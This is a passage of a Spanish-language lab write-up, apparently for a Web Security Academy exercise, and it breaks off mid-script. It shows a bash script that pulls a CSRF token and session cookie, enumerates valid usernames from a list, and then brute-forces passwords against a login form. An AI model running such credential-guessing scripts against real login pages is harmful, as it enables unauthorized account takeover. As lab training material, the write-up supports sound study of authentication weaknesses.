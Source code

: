 Ejecutamos el programa y vemos que valida un usuario.

![run script](img2.png)

Verificamos en la pagina, y vemos que si funciona.

![verify user](img3.png)

Ahora extendemos el script para probar con las contraseñas.

```bash
#!/bin/bash

URL='https://aca61f111e1ff681806d1a2f00ed00e9.web-security-academy.net/login'
NULL='/dev/null'

REQUEST1=`curl $URL -D- -s`
CSRF=`echo $REQUEST1 | grep -oP 'value=".*?"' | cut -d '"' -f 2`
COOKIE=`echo $REQUEST1 | grep -oP 'session=.*?;'`

for USER in `cat user.txt`;do
	DATA='csrf='$CSRF'&username='$USER'&password=a'
	RESULT=`curl $URL -d $DATA -b $COOKIE -s`

	if echo $RESULT | grep -o "Invalid username" > $NULL
	then
		echo "Incorrect user: $USER"
	else
		echo "Valid user: $USER"
		break
	fi
done

for PASS in `cat password.txt`;do
        DATA='csrf='$CSRF'&username='$USER'&password='$PASS
        RESULT=`curl $URL -d $DATA -b $COOKIE -s`

        if echo $RESULT | grep -o "Incorrect password" > $NULL
        then
                echo "Incorrect creds: $USER:$PASS"
        else
```